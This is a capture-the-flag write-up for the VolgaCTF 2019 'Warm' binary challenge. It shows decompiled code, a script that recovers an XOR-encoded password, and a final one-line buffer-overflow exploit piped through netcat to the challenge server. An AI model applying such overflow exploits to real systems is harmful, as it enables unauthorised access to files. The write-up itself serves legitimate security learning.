 ## Warm
### Category : PWN

We are given a binary and a connection

    nc warm.q.2019.volgactf.ru 443

On decompiling with Ghidra, some functions that seem interesting

```
undefined4 FUN_00010788(byte *pbParm1)

{
  size_t sVar1;
  undefined4 uVar2;
  
  sVar1 = strlen((char *)pbParm1);
  if (sVar1 < 0x10) {
    uVar2 = 1;
  }
  else {
    if (((((*pbParm1 == 0x76) && ((pbParm1[1] ^ *pbParm1) == 0x4e)) &&
         ((pbParm1[2] ^ pbParm1[1]) == 0x1e)) &&
        ((((pbParm1[3] ^ pbParm1[2]) == 0x15 && ((pbParm1[4] ^ pbParm1[3]) == 0x5e)) &&
         (((pbParm1[5] ^ pbParm1[4]) == 0x1c &&
          (((pbParm1[6] ^ pbParm1[5]) == 0x21 && ((pbParm1[7] ^ pbParm1[6]) == 1)))))))) &&
       (((pbParm1[8] ^ pbParm1[7]) == 0x34 &&
        ((((((pbParm1[9] ^ pbParm1[8]) == 7 && ((pbParm1[10] ^ pbParm1[9]) == 0x35)) &&
           ((pbParm1[0xb] ^ pbParm1[10]) == 0x11)) &&
          (((pbParm1[0xc] ^ pbParm1[0xb]) == 0x37 && ((pbParm1[0xd] ^ pbParm1[0xc]) == 0x3c)))) &&
         (((pbParm1[0xe] ^ pbParm1[0xd]) == 0x72 && ((pbParm1[0xf] ^ pbParm1[0xe]) == 0x47)))))))) {
      uVar2 = 0;
    }
    else {
      uVar2 = 2;
    }
  }
  return uVar2;
}
```
Cracking the password seems obvious

The following script did it.

```
input =[0x76,0x4e, 0x1e, 0x15, 0x5e, 0x1c, 0x21, 1, 0x34, 7, 0x35, 0x11, 0x37, 0x3c, 0x72, 0x47]
passwd = chr(input[0])
last = input[0]
for i in range(1,len(input)):
    val = last ^ input[i]
    passwd=passwd+chr(val)
    last = val

print(passwd)
```
we get ``` v8&3mqPQebWFqM?x ``` as the password.

lets connect via netcat 
```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```
Gotta find some other vulns
```

undefined4 FUN_000109ec(void)

{
  int __c;
  FILE *__stream;
  char acStack220 [100];
  char acStack120 [100];
  int local_14;
  
  local_14 = __stack_chk_guard;
  setvbuf(stdout,(char *)0x0,2,0);
  while( true ) {
    while( true ) {
      FUN_000108f0(acStack120);
      puts("Hi there! I\'ve been waiting for your password!");
      gets(acStack220);
      __c = FUN_00010788(acStack220);
      if (__c == 0) break;
      FUN_00010978(1,0);
    }
    __stream = fopen(acStack120,"rb");
    if (__stream != (FILE *)0x0) break;
    FUN_00010978(2,acStack120);
  }
  while (__c = _IO_getc((_IO_FILE *)__stream), __c != -1) {
    putchar(__c);
  }
  fclose(__stream);
  if (local_14 == __stack_chk_guard) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
In `FUN_00010788` only a lower bound on the password is checked, the vulnerability could be a Buffer Overflow

In `FUN_000109ec` we can see that, we can overwrite the buffer where file name is stored.
So, we need a file name, 

According to `Seek file with something more sacred!`, File name could be `sacred`

The password input buffer is 100 bytes, the password is 16 Bytes. so we overflow the rest with 84*A

Final exploit

```
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```

We get the flag

``` 
VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} 
```